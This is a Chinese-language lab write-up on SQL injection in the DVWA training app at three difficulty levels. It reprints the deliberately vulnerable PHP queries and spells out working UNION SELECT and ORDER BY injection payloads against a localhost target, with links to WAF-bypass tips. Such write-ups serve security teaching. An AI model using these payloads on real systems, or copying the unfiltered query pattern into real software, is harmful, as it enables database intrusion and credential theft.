 ```yaml
---
title: 代码审计之SQL
time: 2016.06.03 10:22:00
layout: post
tags:
- 渗透
- DVWA
- SQL injection
excerpt: 通过DVWA学习SQL注入
    
---
```


# SQL injectin
## low
### 目标
窃取到admin的密码
### 源码
```
php
<?php 

if( isset( $_REQUEST[ 'Submit' ] ) ) { 
    // Get input 
    $id = $_REQUEST[ 'id' ]; 

    // Check database 
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 

    // Get results 
    $num = mysql_numrows( $result ); 
    $i   = 0; 
    while( $i < $num ) { 
        // Get values 
        $first = mysql_result( $result, $i, "first_name" ); 
        $last  = mysql_result( $result, $i, "last_name" ); 

        // Feedback for end user 
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 

        // Increase loop count 
        $i++; 
    } 

    mysql_close(); 
	} 

	?> 

```

$_REQUEST的官方说明如下：$_REQUEST — HTTP Request 变量默认情况下包含了 
$_GET，$_POST 和 $_COOKIE 的数组。

也就是说，再不关心是get过来的还是post，总之要取得某一个键的值，就用$_REQUEST就可以了。

不过$_REQUEST速度会比$_GET，$_POST稍慢点。 
### 过程
-  主要问题出现在这：$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";  这里的$id变量直接由 $id = $_REQUEST[ 'id' ];得到，没有进行任何过滤。
-  那么我们就可以通过输入恶意的字符串来进行sql注入。
-  首先，通过order by来确认表 http://localhost:8888/dvwa/vulnerabilities/sqli/?id=1' order by 2 -- &Submit=Submit
	拼接到代码内，$id就为 1' order by 2 --
	
	对应SQL语句就为 SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2 -- '
	order 3 失败 说明是2
	
- 然后，依次进行注入即可
	
	payload：http://localhost:8888/dvwa/vulnerabilities/sqli/?id=-1' union select 1,concat_ws(char(32,58,32),user(),database(),version()) -- &Submit=Submit
	
	32 表示空格 58为： 
	![image](http://momomoxiaoxi.com/img/post/DVWA/1.png)
	load文件
	![image](http://momomoxiaoxi.com/img/post/DVWA/2.png)
	获取帐户和密码
	![image](http://momomoxiaoxi.com/img/post/DVWA/3.png)

## Medium
### 源码

	<?php

	if( isset( $_POST[ 'Submit' ] ) ) {
    	// Get input
    	$id = $_POST[ 'id' ];
    	$id = mysql_real_escape_string( $id );

    	// Check database
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    	$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    	// Get results
    	$num = mysql_numrows( $result );
    	$i   = 0;
    	while( $i < $num ) {
        	// Display values
        	$first = mysql_result( $result, $i, "first_name" );
        	$last  = mysql_result( $result, $i, "last_name" );

        	// Feedback for end user
        	echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        	// Increase loop count
        	$i++;
    	}

    	//mysql_close();
	}

	?>
### 	过程
- 这只是在low的基础上加了  $id = mysql_real_escape_string( $id );这个函数是转义sql语句中使用的字符串中的特殊字符(• \x00• \n• \r • \ • ' • " • \x1a)
- 我们仔细看发现，这里的id参数是直接引用的，并没有加任何的引号，所以get请求中id后面的所有内容，可以直接参与sql语句的构建。比如如果id的内容是id = 0 union select database(),user().那拼接到php代码中就是

	select first_name,last_name from users where user_id=0 union select database(),user()

- 然而，其是post提交的 所以，只需要输入如图payload即可
	![image](http://momomoxiaoxi.com/img/post/DVWA/4.png)
	![image](http://momomoxiaoxi.com/img/post/DVWA/5.png)
	
	绕过waf参考：
	
	[http://drops.wooyun.org/tips/968](http://drops.wooyun.org/tips/968)
	
	[http://drops.wooyun.org/tips/7883](http://drops.wooyun.org/tips/7883)

## High
### 源码
session：![image](http://momomoxiaoxi.com/img/post/DVWA/6.png)

	<?php

	if( isset( $_SESSION [ 'id' ] ) ) {
		// Get input
		$id = $_SESSION[ 'id' ];

		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
		$result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );

		// Get results
		$num = mysql_numrows( $result );
		$i   = 0;
		while( $i < $num ) {
			// Get values
			$first = mysql_result( $result, $i, "first_name" );
			$last  = mysql_result( $result, $i, "last_name" );

			// Feedback for end user
			$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

			// Increase loop count
			$i++;
		}

		mysql_close();
	}

	?>
### 过程
只需要在session界面注入即可
![image](http://momomoxiaoxi.com/img/post/DVWA/7.png)
![image](http://momomoxiaoxi.com/img/post/DVWA/8.png)

